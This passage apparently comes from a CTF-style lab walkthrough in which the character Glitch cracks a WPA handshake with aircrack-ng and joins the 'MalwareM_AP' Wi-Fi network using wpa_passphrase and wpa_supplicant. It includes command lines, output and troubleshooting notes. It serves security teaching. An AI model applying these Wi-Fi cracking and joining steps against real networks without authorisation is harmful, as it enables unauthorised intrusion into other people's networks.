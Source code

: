 ```console
                       BE C5 62 CE 43 C4 68 A7 B4 8F 8C E6 98 EE 1C CB 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : C8 8E D5 F4 B4 5A 1D C4 6C 41 35 07 68 81 79 CD
```

**Note**: If you get an **Packets contained no EAPOL data; unable to process this AP error**, this means that you ran aircrack-ng prior to the handshake being captured or that the handshake was not captured at all. If that's the case, then re-do all of the steps in order to capture the **WPA handshake**.

With the PSK, we can now join the **MalwareM_AP** access point. In a typical engagement, we would do this to inspect the new network, or in some cases, joining the access point is enough to show impact. First, press **CTRL+C** on the terminal that has **airodump-ng** running in order to stop the **airodump-ng** process. We do this because we will not be able to join the Wi-Fi network while airodump-ng is running due to the fact that we are actively using the interface in monitor mode. Then execute the following commands:

```console
glitch@wifi:~$ wpa_passphrase MalwareM_AP 'ENTER PSK HERE' > config
glitch@wifi:~$ sudo wpa_supplicant -B -c config -i wlan2
```
**Note**: If you get a **rfkill: Cannot get wiphy information error**, you can ignore it. You will also notice that **wpa_supplicant** has automatically switched our **wlan2** interface to **managed mode**.

Giving it about **10 seconds** and checking the wireless interfaces once again with **iw dev** shows that we have joined the **MalwareM_AP** SSID.

```console
glitch@wifi:~$ iw dev
phy#2
-- Removed for brevity --

        Interface wlan2
		ifindex 5
		wdev 0x200000001
		addr 02:00:00:00:02:00
		ssid MalwareM_AP
		type managed
		channel 6 (2437 MHz), width: 20 MHz (no HT), center1: 2437 MHz
		txpower 20.00 dBm
```

## The End

McSkidy looked in awe as Glitch flawlessly exposed a weakness in the Wi-Fi network.

Glitch ponders and says, *"That password is pretty weak, I must say. I wouldn't have been surprised if the Mayor had already found a way."*
